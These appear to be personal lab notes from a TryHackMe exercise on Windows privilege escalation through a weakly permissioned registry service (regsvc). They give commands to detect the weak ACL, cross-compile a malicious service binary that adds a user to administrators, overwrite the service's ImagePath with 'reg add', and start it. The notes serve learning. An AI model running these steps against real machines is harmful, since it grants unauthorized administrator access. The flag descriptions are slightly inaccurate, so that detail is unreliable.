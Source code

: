 # Detection
---
- In powershell:
	- `powershell.exe -ep bypass`
	- `Get-Acl -Path "HKLM:\SYSTEM\CurrentControlSet\Services\regsvc" | fl`
	- Look for `NT/INTERACTIVE Allow FullControl`
		- ![[Pasted image 20250417151506.png]]
		- `whoami /all`gives:
			- ![[Pasted image 20250417151720.png]]

# Exploitation
---
- Download a malicious `C`binary on Kali from Attacker machine (this is from THM box) using FTP:
	- ![[Pasted image 20250417152722.png]]
- Edit the `windows_service.c`file:
	- Add our user `user`to `administrators`group:
	- ![[Pasted image 20250417152858.png]]
- Compile the binary:
	- `x86_64-w64-mingw32-gcc windows_service.c -o x.exe`
		- If not installed, install using: `sudo apt install gcc-mingw-w64`
- Upload the `x.exe`file to Windows machine:
	- ![[Pasted image 20250417153225.png]]
- **Run the command:**
- `reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d c:\temp\x.exe /f`
	- Adding registry
	- `\v`-> What registry to enter in subkey, what is the value name "ImagePath"
		- `ImagePath`is a registry that contains the path to drivers image file
		- When we place executable here and tell the service to start, it is going to run the executable for us
	- `\t`-> Type, REG_EXPAND_SZ => String value with the data below
	- `\d`-> Data
	- `\f`-> Force, No confirmation
	- ![[Pasted image 20250417153628.png]]
- Start the service using:
	- `sc start regsvc`
	- ![[Pasted image 20250417153914.png]]
- Our user got added in `administrators`:
	- ![[Pasted image 20250417154021.png]]